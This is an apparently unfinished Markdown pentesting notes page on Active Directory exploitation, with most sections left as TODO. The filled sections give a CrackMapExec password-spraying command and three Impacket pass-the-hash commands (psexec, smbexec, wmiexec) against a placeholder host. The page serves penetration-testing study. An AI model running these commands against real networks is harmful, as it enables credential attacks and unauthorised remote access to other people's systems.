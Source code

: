 # AD Exploitation

## Initial Access and Windows API

### Enumerating the Organization for Initial Access Overview

TODO

### Common Public-Facing Services Insecurities

TODO

### OSINT Primer for AD Pentesting

TODO

### Password Spraying

In case of having a list of users and passwords, we can use the following command to validate them:

```bash
cme {smb, winrm, ssh, ldap, mssql} -u users.txt -p passwords.txt
```

If we don't want the process to stop once valid credentials are found, we can use the  `--continue-on-success` flag.

### Pass the Hash

If we have valid `NTLM` hashes, we will use one of the following commands to connect to the target machine:

```bash
psexec.py domain.local/user@10.10.10.1 -hashes {NTLM HASH}
```

```bash
smbexec.py domain.local/user@10.10.10.1 -hashes {NTLM HASH}
```

```bash
wmiexec.py domain.local/user@10.10.10.1 -hashes {NTLM HASH}
```

### RDP Access with Pass The Hash

TODO

### Accessing LAPS

TODO

### Misconfigured Sysvol Policies

